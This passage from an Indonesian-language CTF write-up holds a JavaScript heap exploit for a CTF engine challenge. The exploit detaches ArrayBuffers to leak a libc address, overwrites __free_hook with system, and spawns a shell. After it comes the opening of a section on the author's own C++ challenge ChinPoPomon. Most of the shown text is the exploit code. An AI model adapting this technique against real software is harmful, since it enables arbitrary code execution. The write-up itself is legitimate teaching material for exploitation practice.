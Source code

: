```js
ArrayBufferDetach(e)
ArrayBufferDetach(f)
ArrayBufferDetach(g)
ArrayBufferDetach(a)
ArrayBufferDetach(h)
var r = dvv.getFloat64(128)

r = Int64.fromDouble(r) - 0x3ebca0
fh = r + fh_off
system = r + system_off
console.log(fh)
console.log(fh / 0x100)
dv.setInt8(0, fh)
dv.setInt8(1, fh / 0x100)
dv.setInt8(2, fh / 0x10000)
dv.setInt8(3, fh / 0x1000000)
dv.setInt8(4, fh / 0x100000000)
dv.setInt8(5, fh / 0x10000000000)
dv.setInt8(6, fh / 0x1000000000000)
h = new ArrayBuffer(0x350)
a = new ArrayBuffer(0x350)
dvv = new DataView(a)
dv = new DataView(h)
dvv.setInt8(0, system)
dvv.setInt8(1, system / 0x100)
dvv.setInt8(2, system / 0x10000)
dvv.setInt8(3, system / 0x1000000)
dvv.setInt8(4, system / 0x100000000)
dvv.setInt8(5, system / 0x10000000000)
dvv.setInt8(6, system / 0x1000000000000)


dv.setInt8(0, 0x73)
dv.setInt8(1, 0x68)
ArrayBufferDetach(h)
EOF
```

Terdapat EOF sebab cara soal ini dijalankan, lihat [file soalnya](https://drive.google.com/drive/folders/1MWZBBxaByKVMAgB-7WlES8cGFbuXjP5F?usp=sharing).

Exploit saya lumayan jelek, tapi terkadang saya mendapatkan error "Double free detected" secara random, yang ini kebetulan gak begitu :v



### 2. ChinPoPomon (Compfest CTF 2020 Finals) (Soal saya sendiri)
ChinPoPomon merupakan soal exploitasi C++, yang menyalahgunakan cara kerja string. Pembuat soal ini merupakan saya sendiri. Anda dapat unduh semua file soal ini pada link [ini](https://drive.google.com/drive/folders/1MWZBBxaByKVMAgB-7WlES8cGFbuXjP5F?usp=sharing).
